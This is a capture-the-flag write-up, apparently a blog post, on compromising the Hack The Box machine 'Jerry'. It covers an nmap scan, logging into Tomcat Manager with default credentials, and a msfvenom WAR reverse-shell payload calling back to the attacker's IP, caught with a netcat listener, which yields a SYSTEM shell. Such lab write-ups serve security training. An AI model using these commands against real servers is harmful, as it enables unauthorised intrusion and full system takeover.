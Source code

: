 ```yaml
---
permalink: /posts/HTB/Jerry
title:  "HTB Jerry"
author: Luc Kolen
description: "Jerry is an easy Windows machine on HTB"
categories:
  - CTF
  - HTB
tags: 
  - HTB-Easy
  - Windows 
  - Tomcat
---
```

# 10.10.10.95 - Jerry

- [10.10.10.95 - Jerry](#10101095---jerry)
  - [Open ports](#open-ports)
  - [Tomcat](#tomcat)
  - [TL;DR](#tldr)

## Open ports

```bash
luc@kali:~/Documents/Cyber-security/HTB/Jerry$ nmap -vv --reason -Pn -A --osscan-guess --version-all -p- 10.10.10.95
```

![NMAP results](/assets/images/HTB-Jerry/1.a%20NMAP%20results.png)

|Port|Service|
|---|---|
|8080/tcp|Apache Tomcat/Coyote JSP engine 1.1|

## Tomcat

The only available port is `8080` with Apache Tomcat running. Browsing to `http://10.10.10.95:8080/` only shows the default page so it hasn't been setup. A service that hasn't been setup has a high chance of using default credentials. Browsing to the admin panel at `http://10.10.10.95:8080/manager/html` shows us a 401 error message, but also the explanation on how to setup Tomcat and the default credentials `username:tomcat` and `password:s3cret`.

![Tomcat 401 page showing default credentials](/assets/images/HTB-Jerry/1.b%20Tomcat%20401%20page%20showing%20default%20credentials.png)

Refreshing the page and entering these credentials will show us the `Tomcat Web Application Manager`. This page allows us to deploy a WAR file on the server. We can use MSFVenom to create our payload as a WAR file.

```bash
luc@kali:~/Documents/Cyber-security/HTB/Jerry/payload$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.16 LPORT=443 -f war > shell.war
```

![Upload created WAR file](/assets/images/HTB-Jerry/1.c%20Upload%20created%20WAR%20file.png)

Opening `http://10.10.10.95:8080/shell/` after uploading our WAR file will execute the payload and open a connection to the Netcat listener. Tomcat was running as system so there is no need for privilege escalation.

```bash
luc@kali:~/Documents/Cyber-security/HTB/Jerry$ sudo nc -lvnp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.95.
Ncat: Connection from 10.10.10.95:49193.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
nt authority\system
C:\apache-tomcat-7.0.88>cd ../Users/Administrator/Desktop/flags
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
user.txt
7004dbce************************

root.txt
04a8b36e************************
```

## TL;DR

- Tomcat is running with default manager credentials
- Uploaded WAR file can be executed by the user for a shell as `nt authority\system`
